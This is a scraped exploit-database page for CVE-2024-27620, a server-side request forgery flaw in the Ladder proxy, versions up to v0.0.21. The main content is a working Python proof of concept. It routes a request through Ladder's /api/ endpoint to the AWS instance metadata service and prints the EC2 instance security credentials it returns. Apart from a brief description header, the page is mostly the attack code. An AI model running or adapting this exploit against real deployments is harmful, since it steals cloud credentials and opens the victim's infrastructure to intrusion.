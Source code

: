```yaml
---
title: Ladder v0.0.21 - Server-side request forgery Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-39432&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-12
fetch_date: 2025-10-04T12:10:11.143208
---
```


# Ladder v0.0.21 - Server-side request forgery Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Ladder v0.0.21 - Server-side request forgery Vulnerability CVE-2024-27620

2024-03-11 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-39432
# Exploit Title: Ladder v0.0.21 - Server-side request forgery (SSRF)
# Date: 2024-01-20
# Exploit Author: @_chebuya
# Software Link: https://github.com/everywall/ladder
# Version: v0.0.1 - v0.0.21
# Tested on: Ubuntu 20.04.6 LTS on AWS EC2 (ami-0fd63e471b04e22d0)
# CVE: CVE-2024-27620
# Description: Ladder fails to apply sufficient default restrictions on destination addresses, allowing an attacker to make GET requests to addresses that would typically not be accessible from an external context.  An attacker can access private address ranges, locally listening services, and cloud instance metadata APIs

import requests
import json

target_url = "http://127.0.0.1:8080/api/"
imdsv1_url = "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"

r = requests.get(target_url + imdsv1_url)
response_json = json.loads(r.text)
print(response_json["body"])
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)